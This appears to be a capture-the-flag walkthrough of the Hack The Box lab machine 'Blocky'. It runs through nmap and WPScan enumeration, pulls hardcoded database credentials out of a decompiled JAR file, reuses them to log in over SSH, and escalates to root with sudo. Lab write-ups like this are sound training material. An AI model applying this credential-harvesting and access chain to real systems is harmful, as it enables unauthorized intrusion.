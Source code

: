 # Walkthrough: Blocky HTB Machine
Blocky.png
**Target IP Address**: `10.10.10.37`  
**Difficulty**: Easy  
**Tools Used**: Nmap, WPScan, JD-GUI, SSH

## Step 1: Initial Enumeration

To start, I performed an Nmap scan to identify open ports and services.

```bash
nmap -sC -sV 10.10.10.37
```

### Nmap Results:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 14:39 IST
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 5.05% done; ETC: 14:40 (0:00:38 remaining)
Nmap scan report for 10.10.10.37
Host is up (0.071s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.36 seconds
```

The HTTP service redirected to `http://blocky.htb`, suggesting a hostname requirement.

### Update Hosts File

```bash
sudo nano /etc/hosts
```

Add the following entry:
```
10.10.10.37 blocky.htb
```

## Step 2: Web Enumeration

With the website active, I used WPScan to further enumerate the WordPress site and discovered the user .

```
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

## Step 3: Decompiling BlockyCore.jar

A downloadable `.jar` file was available on the website. I used `JD-GUI` to analyze the `BlockyCore.jar` file for sensitive information.

The code snippet revealed the following:

```
public String sqlUser = "root";
public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

These credentials hinted at possible SSH access.

## Step 4: Gaining Access via SSH

Using the discovered credentials, I logged into SSH with the username `notch`:

```bash
ssh notch@10.10.10.37
```

**Password**: `8YsqfCTnvxAUeduzjNSXe22`

This granted me user-level access.

## Step 5: Privilege Escalation

With user access, I executed `sudo -i` to escalate privileges:

```bash
sudo -i
```
After being promoted to root, we can get a root flag.

